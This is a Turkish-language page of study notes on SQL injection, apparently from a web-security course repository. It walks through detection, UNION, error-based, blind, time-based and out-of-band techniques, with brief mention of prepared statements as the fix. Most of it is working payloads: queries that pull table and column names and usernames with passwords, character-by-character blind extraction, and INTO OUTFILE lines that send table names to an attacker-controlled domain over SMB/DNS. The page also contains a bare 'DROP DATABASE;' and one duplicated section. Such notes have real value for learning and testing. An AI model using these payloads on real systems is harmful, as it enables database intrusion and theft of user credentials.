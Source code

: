 <h1 align="center">SQL Injection</h1>

---

# SQL Injection Nedir?
* Saldırganın, web yazılımını kullanarak veritabanı sorgusu çalıştırmabilmesidir.

### SQL Injection Nasıl Tespit Edilir?

* SQL INJECTION TIME BASED PAYLOADLAR ILE TESPIT EDILIR !!!! 
* Her db için ayrı sleep metodları vardır. 
* Data insert ederken bile sleep methodunu çalıştırabilirsin. 
* SQL Injection bulurken kendine bir referans noktası seçersin ve denediğin yöntemlerle bu ilk noktaya dönmeye çalışırsın. Başarırsan zaafiyeti kanıtlamışsın demektir.
* SQLi tespit etmek için URL kısmında şunları dene: 
```python
..../productid=4'
	invalid falan verirse
..../productid=4''
	böylesini dene
..../productid=5-1
	dene
```

## Notlar

- SQL injectionda gönderdiğin data, arka tarafta SQL sorgusu olarak gidiyor. Data, data olarak kalırsa sorun çözülmüş olur.

- ORM uygulama denir buna. Prepare statement deniyor buna. İnputları parametrelendirmek yani.
![AAaaaa](https://github.com/grealyve/MDISec-Web-Security-and-Hacking-Notes/assets/41903311/18f973a7-e5cf-4a86-b87e-34a5c9da5a0a)

```SQL
database() --> mevcut database ismini döndürür

SELECT 2+1;
3

SELECT '2-1';
2-1

SELECT '2'-'1';     --> integer casting yapıyor
1                 

SELECT '2'+'a';    --> 2yi integer cast edebiliyor ama 'a'yı cast edemiyor.
2                 

SELECT 'b'+'a';
0

SELECT '2' '1'; veya SELECT concat('2','1');  --> boşluğu string concatenation yapıyor.
21        

SELECT SELECT '2' '1' 'a';
21a

SELECT SELECT '2' '1' 'a' - 1;   -->  önce çıkartmayı yapıp sonra string birleştirme yapıyor.
20a                 

SELECT 2^1;    -->     XOR operantı bu  2^2 = 0
3

SELECT ~1;    -->      max integer input
18446744073709551614

DROP DATABASE;
```

- Database tablolarına veri eklerken trim(boşlukları silme) işlemi yapmazken, veriyi çekerken trim yapıyor.

- SQL Injection kod örnekleri:
![1](https://github.com/grealyve/MDISec-Web-Security-and-Hacking-Notes/assets/41903311/d7f4bb63-1cb6-421a-af77-3b086c2132a5)
![2](https://github.com/grealyve/MDISec-Web-Security-and-Hacking-Notes/assets/41903311/a553e307-5cea-4525-8232-fe8c61b54b2b)

## UNION SQLi

.../id=2-1
- Peşpeşe SELECT sorgusu çalıştırmak için UNION kullan ama UNION kullanabilmen için 2. SELECT’deki kolon sayısı aynı olması gerekiyor. 
- UNION SELECT 1,2,3,4,5,6,7,8,9,10,11… böyle gidersin.
- Eğer ekranda 7 2 9 gibi değerler görüyorsan bu kodda 2. indisteki kodu uygulama, ekrana yaz demektir bu. Arama çubuğuna gidip 7 yerine version() fonksiyonunu çalıştırdığında veri çekebilir hale gelebilirsin.
- İlk SELECT sorgusunun cevabını görmemek için -99999999 yazabilirsin id UNION’dan önce.
- Sonra versiyon yerine database() yazarsan database ismini getirir.

```SQL
' UNION SELECT 1,2,3,4,5,6,table_name,8,9,10,11 FROM information_schema.tables WHERE table_schema = database()  
	  bu şekilde tablo isimlerini çektik

' UNION SELECT 1,2,3,4,5,6,column_name,8,9,10,11 FROM information_schema.column WHERE table_name = ‘users’  
	  users’ın kolonlarını çekme

' UNION SELECT 1,2,3,4,5,6,uname,8,9,10,11 FROM users  
	  uname yerine kolon isimlerinde ne çıkarsa artık
```
* bu kısımda fonksiyon kullanmak da verimli olabilir || 6,concat(uname,’:MDISEC:’,pass),8,9,..  || veya regex yazıp çözebilirsin.

## Error Based SQLi

- SQL sorgusunun database’de oluşturduğu syntax’ın geri dönmesi sonucu, o syntax hatası içine çıkartmak istediğni veriyi yerleştirmeyle oluşuyor.
- Eğer ki verdirttiğin hata tee database’e kadar gidiyorsa sen bu yardımcı metodu kullanarak data getirebilirsin. XML şeklinde veriyorsun
- Syntax hatası olmadan bu tür olmaz.
```SQL
rand() —> 0-1 arası random sayı üretir.

SELECT extractvalue(rand(), concat(1,"Ali"));
		burada sonuç olarak hata dönüyor ama içinde "Ali" de geçiyor. Sorgunun içindeki string değeri hatanının içinde döndürtmeyi başardın demek.
		böylece subquery kullanabilirsin demek oluyor.
SELECT extractvalue(rand(), concat(1,(SELECT 'mehmet')));  eğer yine hatada mehmet dönerse istediğin sorguyu atabilirsin.
SELECT extractvalue(rand(), concat(1,(SELECT database())));
```

## AND/OR SQLi
```SQL
SELECT extractvalue(rand(), concat(1,"Ali"));
		burada sonuç olarak hata dönüyor ama içinde "Ali" de geçiyor. Sorgunun içindeki string değeri hatanının içinde döndürtmeyi başardın demek.
		böylece subquery kullanabilirsin demek oluyor.
SELECT extractvalue(rand(), concat(1,(SELECT 'mehmet')));  eğer yine hatada mehmet dönerse istediğin sorguyu atabilirsin.
SELECT extractvalue(rand(), concat(1,(SELECT database())));
```

## WHERE id IN (1)
```SQL
www.x.com/?id=1) UNION SELECT #
```

## Tırnaklama
```SQL
SELECT * FROM users WHERE id = '1'''; 
	olduğunda tırnak, tırnağı escape edeceği için sana yine cevabı çevirmiş olur. 3 tane tırnak olsa hata verir.
```

## Boolean-Based / Blind SQLi
- Örnek python kodu:
```python
if result().size > 0:
	print("haber var")
else:
	print("haber yok")
```
> Bu şekilde injection yapılabiliyor:
```SQL
SELECT * FROM haberler WHERE id = 1 and 1=1
SELECT * FROM haberler WHERE id = 1 and (SELECT 1)=1
SELECT * FROM haberler WHERE id = 1 and (SELECT 1)=2  2 
	yaparak referans noktanın değiştiğini gözlemle.
SELECT * FROM haberler WHERE id = 1 and SUBSTRING('MEHMET',1,1)='M'  
	Substring fonksiyonu string ifadeyi indexten indexe kesecek işlemi yapar.
SELECT * FROM haberler WHERE id = 1 and SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1), 1, 1)='a'
	ilk tablo ismini stringi bölerek 'a' eşitlemeye çalışır. 'u' yu bulana kadar alfabetik değiştir. 2 tane for döngüsüyle bütün harfleri bulursun.
Bu işlemi hızlandırmak için:
SELECT * FROM haberler WHERE id = 1 and ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1), 1, 1))> 80
SELECT * FROM haberler WHERE id = 1 and ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1,1), 1, 1))> 80
```
## Time Based SQLi
> Bu şekilde injection yapılabiliyor:
```SQL
SELECT * FROM haberler WHERE id = 1 and 1=IF (1=1,1,0)  condition doğruysa 1 dön değilse 0 dön.
SELECT * FROM haberler WHERE id = 1 and 1=IF (1=1,sleep(5),0)      eğer cevap dönmesi uzun sürerse açığı yakaladın demektir.
	Sonrasında SUBSTRING ve ASCII'den yürü.
```
## Out-of-Band SQLi
- Örnek python kodu:
```python
id = request.get('id')

rabbitmq.pushTask('report_generate',id)
	Senden gelen integer değerleri SQL sorgusu içine yolluyor yani içeride başka işler dönüyor. sleep falan yaramaz aga.
print("selam")
```
> Bu şekilde injection yapılabiliyor:
```SQL
SELECT 'ali' INTO OUTFILE '/tmp/test.txt'; komutu diske bir şeyler yazmana yarar. Bunu kullanarak bir şeyler elde edebilirsin.
SELECT 'ali' INTO OUTFILE '\\\hacker.mdisec.com/a'; windows un özelliğidir bu samba protoklü ile verilen domainin 445.portuna gitmeye çalışır.
	Bunun subdomainine subSELECT kurarsan rahatça table_name falan elde edersin.
SELECT * INTO OUTFILE '\\\'+(SELECT table_name FROM information_schema.tables WHERE table_schema=database())+.mdisec.com/a'
	DB'in bağlı olduğu DNS serveri üstünden senin name serverına istek atar ve dataları orada görürsün.
```
